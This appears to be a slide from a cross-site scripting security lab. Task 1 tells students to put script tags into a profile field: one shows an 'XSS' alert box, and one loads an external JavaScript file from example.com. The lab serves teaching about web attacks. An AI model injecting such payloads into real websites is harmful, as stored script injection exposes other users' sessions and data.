

# Task 1: Posting a Malicious Message to Display an Alert Window
>>>>>>>>>Insert to the below code to your profile<<<<<<<<<<
Short message
<script>alert(’XSS’);</script>
Long message
<script type="text/javascript" src="http://www.example.com/myscripts.js">
</script>